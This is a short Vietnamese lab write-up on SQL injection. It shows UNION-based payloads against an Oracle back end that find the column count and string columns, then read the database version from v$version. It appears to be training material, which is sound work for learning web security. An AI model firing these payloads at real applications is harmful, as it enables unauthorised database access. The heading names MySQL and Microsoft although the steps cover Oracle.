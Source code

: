 ## SQL injection attack, querying the database type and version on MySQL and Microsoft

1. Theo như đề bài, database của lab này là Oracle SQL nên truy vấn SELECT vào cũng chỉ định vào 1 table cụ thể. Trong Oracle cung cấp một build-in table ``dual`` nhằm mục đích truy vấn data ngoài bảng có sẵn.

2. Xác định số cột trong bảng category và xác định cột chứa kiểu dữ liệu string
Payload: 	```' UNION SELECT 'test' from dual --```
		 	```' UNION SELECT 'test', null from dual --```
		 	```' UNION SELECT null, 'test' from dual --```

![Img1](\asset/../img/determine_col_num.png)

-> Xác định được số cột là 2 và cả 2 cột đều có kiểu string
3. Để xác định database version trong Oracle dùng câu query ``SELECT banner FROM v$version``
Payload: 	```' UNION SELECT banner, null FROM v$version--```

![Img2](\asset/../img/done.png)